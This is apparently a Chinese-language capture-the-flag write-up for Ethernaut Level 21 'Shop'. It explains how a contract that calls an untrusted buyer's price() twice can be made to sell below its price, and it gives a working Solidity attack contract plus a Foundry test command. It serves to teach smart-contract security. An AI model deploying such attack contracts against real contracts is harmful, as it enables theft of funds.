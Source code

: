 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/21-shop.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 21 - Shop](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标
目的是使 price 小于 100。和 Elevator 类似，只要使两次调用 price 得到的值不一样就可以了
<img src="../imgs/requirements/21-shop-requirements.webp" width="800px"/>

## 漏洞

我们先看一下 `buy()` 函数的内容:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```
只有`price()`大于或者等于当前的price时，才能buy成功。然而, `price()` 函数是需要我们自己去实现，这就留给了我们操作的空间，你觉得应该怎样实现它呢？

我们可以参考 [11 - Elevator](../solutions/11_Elevator.md). 我们传教一个合约，实现`Buyer`接口，实现`price()` 函数。

`price()`被调用了两次。我们只需要第一次返回一个满足条件的值，第二次再返回一个新值就可以了。所以要想通关，`!sold` 必须时false ， `price` 第一次返回值，大于100, 然后 `!sold` 变成true， `price` 第二次返回值，就可以随意设置了. 

## 解答

攻击合约实现

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Attack {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  ShopTest  -vvvvv
```


## 要点

- 不要依赖外部合约，改变合约状态的.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
